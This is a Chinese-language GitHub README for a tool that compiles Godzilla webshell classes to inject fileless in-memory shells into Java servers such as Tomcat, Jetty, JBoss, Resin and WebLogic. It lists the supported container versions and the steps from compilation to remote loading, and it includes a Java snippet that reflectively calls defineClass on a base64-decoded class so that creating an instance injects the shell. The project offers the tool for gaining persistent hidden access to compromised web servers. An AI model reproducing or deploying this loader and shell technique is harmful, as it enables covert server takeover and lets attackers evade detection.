 # GodzillaMemoryShellProject

## 哥斯拉内存Shell项目

当你拥有一个可以加载任意Class的能力,你就可以编译此项目,编译对应容器的Class
当Class被加载之后，你将获得一个哥斯拉的内存shell,你连接时可以填写任意URI路径

姊妹项目(.NET/IIS内存Shell)：https://github.com/BeichenDream/GodzillaMemoryShellProject.NET/

```
  1. 选择JDK版本
  2. 编译此项目
  3. 找到对应容器编译出来的Class
  4. 在远程加载该Class
  5. 获得内存Shell
  
```

目前支持以下容器 几乎支持容器的所有版本（欢迎pull更多容器）,你无需关注上下文，这一切哥斯拉内存Shell将会自动搜寻并完成注入
在这个项目你会看到很多的动态代理，这是哥斯拉内存Shell为了兼容javax和jakarta api规范

```
  1. Tomcat 5 - 10
  2. Jetty 7 - 11.0.11
  3. JBoos 8 - 27.0.0
  4. Resin 3 - 4.0.66
  5. Weblogic 10.3.6 - weblogic 14
```

## 如何调用哥斯拉内存shell

```
            //哥斯拉内存shell的class Base64
            String godzillaMemShellClassBase64 = "...........";
            //base64 解码
            byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
            //获得上下文的ClassLoader
            ClassLoader loader = Thread.currentThread().getContextClassLoader();
            //反射获得defineClass方法 用来定义Class
            Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            //使得defineClass方法可访问
            defineClassMethod.setAccessible(true);
            //调用defineClass方法 从class字节码创建Class
            Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
            //创建哥斯拉内存shell实例 哥斯拉内存Shell在此处自动注入
            clazz.newInstance();
            
```

## 注入内存shell/查找上下文很慢？

可以根据目标环境减小maxDetch的值
![image](https://user-images.githubusercontent.com/43266206/179052668-2c98a030-d572-4b7c-8a81-49bc1c17ee01.png)

## 自动搜寻上下文

![image](https://user-images.githubusercontent.com/43266206/179051462-62356e57-7656-42bf-80ee-9c1ddfd3324a.png)

## 引用
https://github.com/feihong-cs/memShell
